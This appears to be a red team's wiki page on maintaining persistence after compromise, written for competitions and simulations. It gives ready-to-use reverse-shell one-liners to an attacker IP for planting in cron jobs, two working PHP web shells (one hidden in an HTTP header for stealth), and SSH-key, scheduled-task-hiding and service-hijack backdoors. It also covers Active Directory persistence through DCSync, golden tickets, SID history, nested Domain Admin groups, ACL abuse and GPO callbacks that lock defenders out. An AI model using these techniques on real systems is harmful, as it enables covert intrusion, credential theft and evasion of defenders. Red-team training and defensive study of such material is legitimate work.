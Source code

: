 We should accomplish persistence several ways if possible, while sometimes leaving false IOCs, assisting us in [[Evasion|Evading]] detection. 
## Persistence via C2 Infrastructure

The C2 implant of choice for CU at the time of writing is [[Sliver C2]]. You can find a whole host of other options in the C2Matrix here: https://docs.google.com/spreadsheets/d/1b4mUxa6cDQuTV2BPC6aA-GR4zGZi0ooPYtBe4IgPsSc/edit#gid=0. This is a publicly available resource that compares C2 infrastructures against each other. If evasion becomes an absolute necessity in the future, or Sliver's feature count becomes insufficient, the author recommends rolling a custom [[Mythic]] agent, or building our own custom C2 infrastructure using existing techniques.

[[MSFVenom]] also contains functionality for binding malware to legitimate executables. However, this must be done in conjunction with [[Evasion]] as all MSFVenom payloads and TTPs are well signatured. 

## Persistence via LOL (Living off the Land)
#### Linux
- Install and enable new service
- Malicious user acct
###### Cron jobs: 
- Put a reverse shell in a cron job. This is the classic reverse shell string: 
  `/bin/bash -i > /dev/tcp/<attacker-IP>/<port> 0<&1 2>&1`
- If the victim machine has the traditional version of netcat installed, then this would work as well: `nc -e /bin/bash <ATTACKER_IP> <PORT>`
These are all the places you can hide cron jobs:
- `/var/spool/cron/crontabs/` — per-user cron jobs
- `/etc/crontab` — system crontab file, this will have references to all the other system crontab files below
- `/etc/cron.d/`
- `/etc/cron.hourly/`
- `/etc/cron.daily/`
- `/etc/cron.weekly/`
- `/etc/cron.monthly/`
###### SSH Keys:
- If you don't have an SSH key, generate one with `ssh-keygen`. 
- Add your public key to the `~/.ssh/authorized_keys` file in every user's directory. Create the file if it isn't already present, then add a new line in the file and put your public key there.
- Set the permissions on the file and directory by running `chmod 700 ~/.ssh` and 
  `chmod 600 ~/.ssh/authorized_keys`


#### Windows
- Registry Run Keys
- Scheduled Tasks
	- Can delete attribute SD from task at HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Schedule\\Tree\\\<TASK\> to hide the running task from `schtasks`.
- Startup Folder
- Malicious user acct
	- Administrator User
		- If NOT:
			- Backup Operators && Remote Management Users member can export HKLM\\system and HKLM\\sam to PTH with [[Evil-WinRM]]. This can also be accomplished by editing config.inf with [[secedit]] directly and adding the user to privileged groups and assigning privileges to the user directly via the GUI. This prevents the new groups from appearing in a user summary. TODO: Finish this with more details
- DLL Hijacking
- Poisoning Shortcuts
- Backdoor Applications
	- [[MSFVenom]] has functionality for this.
- Replace Default Applications for File types
	- HKEY_CLASSES_ROOT???
- Malicious Services
	- Replace the binPath property of an existing Windows service with your implant to avoid creating a new service. Simple commands can also be used as binPath, meaning `net user redteam password /add` is permissible. If you plan to use an implant as a service make sure to compile as `exe-service` with [[MSFVenom]].


#### PHP (Web Servers)
###### PHP Command Parameter
If you find a web server that uses PHP, put this code snippet somewhere in the PHP page. Then, you'll be able to send commands to the website via GET and POST requests.
```php
<?php  
if (isset($_REQUEST['cmd'])) {  
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
}  
?>
```
Command execution example: `http://example.com/webscript.php?cmd=ls` (this uses a GET request, which is less stealthy than using a POST request.)

Alternatively, you could use the following code to achieve the same effect, but using HTTP headers instead. (This option is stealthier than GET or POST requests.)
``` PHP
<?php  
if (isset($_SERVER['HTTP_CMD'])) {  
echo "<pre>" . shell_exec($_SERVER['HTTP_CMD']) . "</pre>";  
}  
?>
```
Command execution example: `curl -H "CMD: ls" http://example.com/webscript.php`
- This method sends the commands via a custom HTTP header. HTTP headers often aren't displayed in logs, so it's quite stealthy. 
###### Stealing PHP Sessions
- This is basically session hijacking, but with PHP. 
- Some web servers write their session IDs to disk. When a web server does that, you can go find the file that contains the session IDs and use them to log in as an authorized user. 
- These might not be good for long-term persistence since sessions expire, but it's worth noting nonetheless. 
- PHP web servers sometimes store their session IDs in `var/lib/php/sessions`. The session file naming format is `sess_<SESSION_ID>`. 
- To conduct this attack, steal a session ID and change your `PHPSESSID` cookie to it (in "inspect element" or a similar browser tool) to hijack the session and login as an authorized user.
>[!tip] Troubleshooting Tip
>If you can't find the session IDs in `var/lib/php/sessions`, they could still be on disk somewhere. PHP has a configuration text file called `php.ini` that's generally located in `/etc/php.ini` or `/usr/local/lib/php.ini`, so check the `php.ini` config file to see if the session IDs are stored elsewhere.
## Domain Persistence
### Credentials
You can acquire hashes of users using [[Mimikatz]]'s DCSync functionality for every user. This will grant access to the krbtgt account for golden tickets, etc. 

### Tickets
Golden and Silver Tickets are incredibly useful, and will grant persistence as well. The are generated most easily with [[Rubeus]] and [[Mimikatz]]. 

### Certificates

> [!error] Danger
> If you are generating a CA to have persistence, you are making blue team rebuild the domain to get you out. Only do this in nation-state sims and competitions where the domain does NOT have to be reused. In a penetration test, this is so far overkill you will not be invited back. 

[[Mimikatz]]

### SID History
SID History is used to facilitate transferring permissions from one domain to another for a user group. Therefore, if we artificially install the DA SID into our account we will maintain the DA privileges we had "before".
### Group Membership
Nested groups are hard to monitor. Since we have DA, we should make some. Example commands are from THM. 

```powershell
New-ADGroup -Path "OU=<some OU>,OU=<some OU>,DC=za,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

```powershell
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

```powershell
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

### ACLs
If we add ourselves to the template pushed out by the SDProp service every hour, even if blue team flushes us out, we can still reacquire access every time there is a push. Especially if we grant "Full Control" to Domain Users and maintain control over some low-privileged accounts, we can add ourselves to DA anytime we please. 

### GPO
We can create a GPO inside of the Admins group to run our C2 infra as an Administrator. If we set it to be Enforced, we can ensure it runs even if there are conflicting policies. We can add our shell or C2 to the logon scripts for admin users ensuring we get a callback every time they log into their machines. Lastly, we can remove edit permissions on a policy from even the Enterprise Admins, so a network reset will have to be performed to get us out. 
